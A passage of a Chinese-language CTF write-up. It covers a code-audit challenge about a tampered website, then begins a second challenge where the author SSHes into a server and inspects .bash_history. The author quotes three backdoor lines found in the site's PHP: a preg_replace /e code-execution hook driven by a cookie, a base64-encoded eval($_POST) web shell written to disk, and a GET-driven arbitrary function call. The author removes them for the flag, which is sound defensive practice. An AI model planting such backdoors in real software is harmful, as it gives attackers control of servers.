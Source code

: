   是一个代码审计题目,文件下载下来以后观察。在53行`$openid = @preg_replace("/linkurl/e",$_COOKIE['linkurl'],"Cookie_linkurl");`
  90行`$user = fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));`
  105行`$referer = $_GET[a]($_GET[b]);`有可疑代码，删除后上传文件拿到flag

  ![网站被篡改了2.png](imgs/网站被篡改了2.png)

2. 黑客大追踪

  首先拿到题目，里面是一个服务器访问方式

  ![黑客大追踪1.png](imgs/黑客大追踪1.png)   

  SSH进去后发现当前目录下的命令行记录文件.bash_history

  ![黑客大追踪2.png](imgs/黑客大追踪2.png)   
